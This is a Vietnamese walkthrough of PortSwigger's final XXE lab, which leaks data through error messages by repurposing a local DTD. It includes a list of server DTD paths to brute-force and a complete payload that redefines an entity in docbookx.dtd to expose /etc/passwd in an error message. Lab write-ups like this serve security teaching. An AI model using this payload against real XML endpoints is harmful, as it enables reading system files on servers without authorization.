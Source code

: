 Description: This lab has a “Check stock” feature that parses XML input but does not display the result. To solve the lab, trigger an error message containing the contents of the /etc/passwd file. You’ll need to reference an existing DTD file on the server and redefine an entity from it.

Đây là lab cuối cùng trong các lab XXE của Portswigger. Lỗi nằm ở tính năng Check stock. Để solve được thì ta phải trigger 1 thông báo lỗi và có kèm theo nội dung của file /etc/passwd. Ta cần phải refer 1 file DTD có sẵn trên server và định nghĩa lại entity từ file đó.

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/38552bbf-e15d-455a-926f-1ae4b4b3c810)

Về loại hình tấn công XXE ``retrieve data by repurposing a local DTD``.

```
https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/f88af792-c856-4c5b-ab7d-80dfe9a876c2)

Ở đây mình tạo 1 payload để chỉ đến file ``/etc/nonexistent``. Kết quả cho thấy là nó có thể liệt kê ra cả nhưng file đã hoặc không tồn tại. Ta có thể brute force 1 local dtd file trên server(Tùy vào loại server mà file dtd sẽ khác nhau) và định nghĩa lại 1 số parameter-entity bên trong nó.

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/00a9d7b4-3f27-4262-9a83-e2f9a15a5cfa)

Sau khi bruteforce thì ta nhận được file ``/usr/share/yelp/dtd/docbookx.dtd``. Thực hiện tấn công vào nó với payload sau:

```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/elliSzAt/XML-external-entity-XXE-injection/assets/125866921/b12762d2-6bcb-41dc-9662-4bd7a3f06b24)

Hoàn thành lab cuối cùng.

1 vài nội dung khá hay cho mọi người tham khảo:

```
https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/
```
